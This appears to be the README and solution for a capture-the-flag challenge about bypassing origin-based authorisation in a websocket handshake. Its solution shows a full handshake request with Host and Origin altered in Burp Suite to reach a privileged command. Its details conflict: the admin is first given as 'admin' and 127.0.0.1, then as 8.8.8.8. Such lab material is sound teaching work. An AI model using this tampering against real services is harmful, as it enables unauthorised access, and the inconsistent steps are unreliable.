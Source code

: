 pivotplanehinge is a Websocket CSRF vulnerability. The name comes from the types of joints in the human body -
Pivot, Hinge, Saddle, Plane, __Ball and Socket__.

It provides a simple websocket client. The interface establishes a websocket connection
with the server and some simple commands are available to the user. The user is able to perform several arbitrary commands,
and one that lists a hostname for all connected websocket clients. There will always be the IP address 127.0.0.1 with hostname "admin" shown as connected.
This represents a client that has privileges that allow them to execute a "display_flag" command. When an unprivileged user
attempts to run "display_flag", they are given an error message.

The security for the "display_flag" command is enforced based on the Origin header of the websocket handshake when 
the websocket connection is originally established. Using burp suite, wireshark or the developer console of a browser will show the HTTP 
request that is being made when the handshake is performed, complete with the header value e.g. "Origin: unprivileged_user1"

In order to successfully run the "display_flag" command, the user must perform websocket CSRF by modifying the Origin header on
the websocket handshake to "Origin: admin".

Solution: use burpsuite to intercept and change the Websocket connect handshake from, e.g.:
```
GET /echo HTTP/1.1
Host: 127.0.0.1:8079
Connection: Upgrade
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Upgrade: websocket
Origin: http://127.0.0.1:8079
Sec-WebSocket-Version: 13
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Sec-WebSocket-Key: 0nEERxAieXXOmoJVu/BIwQ==
```

to

```
GET /echo HTTP/1.1
Host: 8.8.8.8:8079
Connection: Upgrade
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Upgrade: websocket
Origin: http://8.8.8.8:8079
Sec-WebSocket-Version: 13
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Sec-WebSocket-Key: e0kTEcf67+qSMBZN9+wWVA==
```

Note Host, Origin 127.0.0.1 -> 8.8.8.8
In order for the Websocket CSRF to work, __both__ Host and Origin must point to the same IP, 8.8.8.8 (the IP of the imaginary Admin account).

